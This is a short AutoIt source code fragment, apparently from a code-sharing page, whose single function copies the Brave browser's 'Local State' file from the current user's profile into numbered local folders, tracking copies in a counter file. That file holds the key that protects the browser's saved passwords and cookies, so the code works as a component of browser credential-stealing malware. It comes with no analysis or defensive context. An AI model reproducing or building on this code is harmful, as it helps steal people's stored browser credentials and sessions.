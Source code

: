 # copylocal556
Func copylocal()
	$u = @UserName
	If _filecountlines("listcopy.txt") = 0 Then
		FileWriteLine("listcopy.txt", 1)
		$file = 1
	Else
		$file = FileReadLine("listcopy.txt", -1) + 1
		FileWriteLine("listcopy.txt", $file)
	EndIf
	$zzz = "C:\Users\" & $u & "\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State"
	FileCopy($zzz, "Local\" & $file, 9)
EndFunc
